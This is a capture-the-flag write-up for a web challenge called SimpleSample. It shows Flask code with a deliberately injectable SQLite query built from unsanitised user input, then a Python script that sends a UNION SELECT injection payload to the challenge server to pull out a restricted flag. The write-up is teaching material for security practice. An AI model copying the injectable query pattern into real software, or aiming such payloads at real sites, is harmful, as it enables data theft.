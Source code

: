 # SimpleSample

## Description

```
We have gained access to the genome browser of a large pharmaceutical company. I'm sure they're hiding something in there.
```

## Categories

- `web`

## Provided Files

- `simplesample.zip`

## Solve Process

This challenge involves some `sqlite3` knowledge to modify a query string correctly.

```py
# --- snip --- #
def add_flag():
    conn = sqlite3.connect(f"file:{DATABASE}?mode=rw")
    conn.execute("INSERT INTO genomes (name, description, sequence, restricted) VALUES (?, ?, ?, ?)", ("ACSC", "Unknown mutation, under evaluation", FLAG, 1))
    conn.commit()
    conn.close()
# --- snip --- #
@app.route('/', methods=['GET'])
@rate_limited(RATE_LIMIT)
@compressed
def index():
    query = request.args.get('query')
    had_query = bool(query)
    if not query:  # display default query
        query = "GGAGGTGGGTTCGAGCCCAACTTCATGCTCTTCGAGAAGTGCGAGGTGAACGGTGCGGGG"

    try:
        conn = get_db_connection()
        results = conn.execute(f"SELECT * FROM genomes WHERE sequence LIKE '%{query}%'").fetchall()
        conn.close()
    except sqlite3.OperationalError:
        results = []

    if any(result['restricted'] == 1 for result in results):
        results = [{"id": -1, "sequence": "Restricted results"}]
    elif len(results) > 4:
        results = [{"id": -1, "sequence": "Too many results"}]

    if not had_query:  # no need to show default query
        query = None

    return render_template('index.html', results=results, query=query)
# --- snip --- #
```

We can see that in `results = conn.execute()`, a direct python format string is used which includes unsanitized user input from `query` directly in the fetch call. The following code checks for the `restricted = 1` value that is set in the `add_flag()` function, where the flag is loaded and stored.

To extend the `SELCET` query, we can use `UNION ALL`, while making sure that we do not include the `restricted` field in our results. This lets us pass the security check. Finally we can fetch the correct database entry buy using another `WHERE name LIKE`.

```py
from requests import get
from urllib.parse import quote

chall_url = "bks5qskwce1h4g3c.dyn.acsc.land"
payload = quote("xxx%' UNION SELECT sequence, sequence, sequence, sequence, sequence FROM genomes WHERE name LIKE '%ACSC")

url = f"https://{chall_url}/?query={payload}"
response = get(url)
print(response.text)
```

This gets us another flag.
